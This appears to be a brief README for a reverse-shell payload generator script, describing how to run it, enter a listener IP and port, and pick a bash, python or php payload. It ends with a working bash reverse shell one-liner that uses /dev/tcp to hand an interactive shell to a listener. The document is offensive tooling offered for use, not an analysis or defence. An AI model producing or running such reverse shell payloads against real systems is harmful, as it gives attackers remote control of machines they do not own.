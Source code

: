 # revshell-generator
A simple  python reverse shell  payload generator script 
# just execute the file  ./executable 
./sblsrvshell
# set options
type listener ip and port 
# payload
 select payload option 
(1.bash
 2.python
 3.php ..etc)
 eg : if you need bash hit option number (1)
# output
 sh -i >& /dev/tcp/127.0.0.1/4444 0>&1
